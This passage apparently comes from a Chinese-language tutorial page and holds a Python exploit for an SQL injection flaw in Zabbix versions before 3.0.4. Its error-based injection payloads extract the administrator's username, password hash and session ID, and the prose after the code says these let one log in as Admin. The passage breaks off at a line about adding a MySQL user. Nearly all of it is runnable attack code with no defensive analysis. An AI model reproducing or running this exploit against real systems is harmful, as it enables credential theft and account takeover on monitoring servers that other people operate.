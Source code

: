 ```
        result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
        results = result_reg.findall(response.decode('utf-8'))
        if results:
            return results[0]


if __name__ == '__main__':
    # os.system(['clear', 'cls'][os.name == 'nt'])
    print('+' + '-' * 60 + '+')
    print('\t   Python Zabbix < 3.0.4 SQL 注入 Exploit')
    print('+' + '-' * 60 + '+')
    if len(sys.argv) != 2:
        print('用法: ' + os.path.basename(sys.argv[0]) + ' [Zabbix Server Web 后台 URL]')
        print('实例: ' + os.path.basename(sys.argv[0]) + ' http://jaminzhang.github.io')
        sys.exit()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    if deteck_Sql():
        print('Zabbix 存在 SQL 注入漏洞！\n')
        print('管理员  用户名密码：%s' % sql_Inject(passwd_sql))
        print('管理员  Session_id：%s' % sql_Inject(session_sql))
    else:
        print('Zabbix 不存在 SQL 注入漏洞！\n')
```

* 成功执行后如图
  ![image](../image/zabbix_py.png)
  之后即可通过对应用户名密码登录(Admin)
  mysql中加入用户为：